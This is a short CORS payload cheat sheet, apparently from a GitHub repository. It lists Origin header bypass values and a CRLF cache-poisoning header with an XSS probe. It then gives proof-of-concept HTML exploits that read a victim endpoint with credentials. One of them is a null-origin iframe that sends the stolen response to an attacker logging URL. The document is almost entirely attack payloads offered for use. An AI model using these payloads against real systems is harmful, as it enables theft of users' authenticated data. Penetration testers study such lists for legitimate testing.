 
# **CORS PAYLOADS**

    Origin: https://evil.com
    Origin: null
    Origin: https://evilexample.com
    Origin: https://evilexample.com
    Origin:null
    Origin:attacker.com
    Origin:attacker.target.com
    Origin:attackertarget.com
    Origin:sub.attackertarget.com
    Origin:attacker.com      and then change the method Get to post/Post to Get
    Origin:sub.attacker target.com
    Origin:sub.attacker%target.com
    Origin:attacker.com/target.com
    Origin:expected-host.com.attacker.com
    Origin:expected-host.computer
    Origin:foo@evil-host:80@expected-host
    Origin:foo@evil-host%20@expected-host
    Origin:evil-host%09expected-host
    Origin:127.1.1.1:80\@127.2.2.2:80
    Origin:127.1.1.1:80:\@@127.2.2.2:80
    Origin:127.1.1.1:80#\@127.2.2.2:80
    Origin:ß.evil-host



**Server-side cache poisoning:**

    Origin: z[0x0d]Content-Type: text/html; charset=UTF-7
    Access-Control-Allow-Origin: z
    Content-Type: text/html; charset=UTF-7

**Custom-http-header:** 

    user-id: <svg/onload=alert(1)>

## **Exploit:**


    <html>
	    <body>
             <h2>CORS PoC</h2>
             <div id="demo">
                 <button type="button"	onclick="cors()">Exploit</button>
             </div>
             <script>
                 function cors() {
                 var xhr = new XMLHttpRequest();
                 xhr.onreadystatechange = function() {
                     if (this.readyState == 4 && this.status == 200) {
                     document.getElementById("demo").innerHTML = alert(this.responseText);
                     }
                 };
                  xhr.open("GET",
                           "https://victim.example.com/endpoint", true);
                 xhr.withCredentials = true;
                 xhr.send();
                 }
             </script>
         </body>
     </html>
     

 
**Null Origin:**
 
 

    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','https://victim.example.com/endpoint',true);
      req.withCredentials = true;
      req.send();
    
      function reqListener() {
        location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
       };
    </script>"></iframe> 


**exploit whith xss :** 

    https://subdomain.vulnerable-website.com/?xss="><script>cors-stuff-here</script>

